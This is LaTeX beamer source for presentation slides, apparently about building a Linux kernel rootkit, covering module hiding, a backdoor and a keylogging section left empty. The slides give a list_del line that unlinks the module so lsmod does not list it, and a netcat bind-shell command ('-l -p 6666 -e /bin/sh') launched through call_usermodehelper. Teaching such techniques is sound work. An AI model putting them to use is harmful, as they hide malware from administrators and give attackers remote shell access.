 \documentclass[]{beamer}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
\section{Implementation}
\begin{frame}[t]{Outline}
\tableofcontents[currentsection]
\end{frame}


\subsection{Hiding}

\begin{frame}[t]{Hiding}
  \begin{itemize}
    \item Mask existence
    \begin{itemize}
      \item Kernel modules not visible as a process
    \end{itemize}
    \item \shellcmdinline{lsmod}
    \begin{itemize}
      \item special exported symbol \texttt{extern struct module \_\_this\_module;}
      \item \lstinline{list_del(&(__this_module.list));}
    \end{itemize}
  \end{itemize}
  
\end{frame}


\subsection{Backdoor}

\begin{frame}[t]{Backdoor}
  \begin{itemize}
    \item Spanning userland process
    \begin{itemize}
      \item \shellcmdinline{netcat -l -p 6666 -e /bin/sh}
      \item \shellcmdinline{call\_usermodehelper}
    \end{itemize}
  \end{itemize}
       \lstinline{backdoor.c}
\end{frame}


\subsection{Keylogging}
\end{document}
